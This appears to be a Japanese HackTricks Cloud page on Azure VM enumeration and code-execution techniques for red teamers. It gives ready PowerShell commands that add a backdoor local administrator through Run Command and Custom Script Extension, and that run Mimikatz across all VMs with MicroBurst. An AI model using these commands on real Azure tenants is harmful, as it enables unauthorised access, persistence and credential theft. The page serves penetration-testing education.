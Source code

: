 # Az - 仮想マシンとネットワーク

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}

## 基本情報

[ドキュメントから：](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) Azureの仮想マシンは、Azureが提供する[オンデマンドでスケーラブルなコンピューティングリソース](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree)の一つです。通常、他の選択肢よりもコンピューティング環境に対する制御が必要な場合に仮想マシンを選択します。この記事では、仮想マシンを作成する前に考慮すべきこと、作成方法、および管理方法についての情報を提供します。

## Azureネットワーク情報

Azureネットワークには**異なるエンティティと構成方法があります。** 異なるAzureネットワークエンティティの**簡単な説明、** **例、**および**列挙**コマンドは以下にあります：

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion**は、Azureポータルを介してSSL経由で安全で完全に管理されたRDP（リモートデスクトッププロトコル）およびSSH（セキュアシェル）アクセスソリューションを提供します。これはAzure仮想ネットワーク内に統合されており、プライベートIPを使用してVMへのRDPおよびSSH接続を可能にし、パブリックIPの必要性を回避します。これにより、VMアクセスのためのパブリックIP割り当てやNSGルール構成を含む従来の方法に対する安全で便利な代替手段となります。開発者やIT担当者は、Azureポータルからウェブブラウザを使用してVMに安全にアクセスでき、開発およびテスト環境のプロセスを効率化します。

サブスクリプション内のすべてのAzure Bastionホストをリストするには、次のコマンドを使用できます：

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## VM 列挙
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **VMでコマンドを実行する**

### **VMでのAADログイン**

AzureADを介して認証されたユーザーにアクセスを許可することが可能です。例えば、**linux VM**にアクセスしようとする場合：`ssh username@azure-corp.com@1.1.1.1`（ログインを試みる際に使用したazurecorpの**メールアドレス**を**使用することが重要です**）というエラーが発生することがあります：

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

その**指示に従って**、[https://microsoft.com/devicelogin](https://microsoft.com/devicelogin)にアクセスし、コードを入力し、メールアドレスとパスワードを資格情報として使用すると、SSH経由で接続できるようになります（そのユーザーに十分な権限がある場合：`Virtual Machine Administrator Login`または`Virtual Machine User Login`ロール）。

### **コマンドを実行**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **カスタムスクリプト拡張を実行する**

Azure仮想マシン（VM）拡張は、**Azure VMs**上でのデプロイ後の構成および自動化の**タスク**を提供する**小さなアプリケーション**です。たとえば、仮想マシンにソフトウェアのインストール、ウイルス対策、または内部でスクリプトを実行する機能が必要な場合、VM拡張を使用できます。

したがって、書き込むアクセス権がある場合、任意のコードを実行できます：
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### DesiredConfigurationState (DSC)

DesiredConfigurationState (DSC) は、コードを通じてホストを設定するために使用される、Ansible に似た PowerShell ツールです。DSC は Azure と統合されており、特定の構成ファイルをアップロードできます。これらのファイルは厳格な構文に従う必要があります。特に、Azure の DSC 拡張機能は、特定のフォーマット基準を満たすファイルからコマンドを実行でき、DSC 標準の構文が正しくなくても実行されることがあります。

これらのコマンドの実行は、Az PowerShell の [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) 関数によって促進されます。要件には、定義された関数を持つ **.PS1** ファイルが含まれ、そのファイルは **.zip** ファイルに圧縮される必要があります。構文が DSC に対して正確でなくても、コードは実行されます。ただし、拡張機能は実行ステータスを「失敗」としてマークし、コマンドからの出力は失敗メッセージによって上書きされるため表示されません。

### VM Application Definitions

VM Application Definitions は、バージョン管理されたアプリケーションを Azure VM に繰り返しデプロイすることを可能にします。このリソースは、VM 全体でのアプリケーションのデプロイと更新をサポートします。これを設定するには、Az PowerShell の **`New-AzGalleryApplication`** および **`New-AzGalleryApplicationVersion`** などのコマンドを含むいくつかの手順が必要です。

この方法でアプリケーションやコマンドを実行するには、アプリケーションが VM に適用されると自動的にインストールされる **"VMAppExtension"** が関与します。拡張機能は、指定された URI からファイルを取得し、拡張子なしでアプリケーションと同じ名前を付けます。ファイルを正しく実行するには、REST API 呼び出しの "ManageActions" フィールドを適切な拡張子でファイル名を変更するように設定する必要があります。この方法の設定が完了すると、提供された図に示されている構造に似たものになります。

ただし、この実行方法は比較的遅く、アプリケーションやコマンドを実行するのに約 3-4 分かかります。このプロセスに関連するファイルは、特定のディレクトリに保存されます（アプリケーションコピー用の `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` と、実行ステータス用の `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\`）。

両方の技術は、Azure 環境でコマンドを実行し、アプリケーションをデプロイするための独自の方法を提供し、それぞれに独自の要件、手順、および考慮事項があります。

### Hybrid Worker Groups (HWGs) in Azure

[**Hybrid Worker Groups (HWGs)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) は、Automation Account で構成された Runbook を、指定された HWG の一部である Azure Virtual Machine (VM) で実行できる Azure の機能です。この実行は、VM にインストールされた拡張機能を通じて促進され、Runbook コードが VM にデプロイされます。このプロセスの重要な側面は、実際の資格情報が実行に影響しないことです。なぜなら、コードは特権昇格された状態で実行され、具体的には **SYSTEM** または root として実行されるからです。

Windows 10 VM を利用する人にとって重要な詳細は、Runbook の PowerShell バージョンを指定する必要があることです。これを PowerShell バージョン 5.1 として実行するように設定する必要があります。これは、PowerShell 7.1 がこれらの VM にデフォルトでインストールされていないため、バージョン 7.1 を指定するとスクリプトの実行が失敗するからです。

Azure のこの機能は、ハイブリッド環境全体でのタスクの自動化と管理のための強力な方法を提供し、Azure VM 上でのタスクの集中管理と実行を可能にします。

## References

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
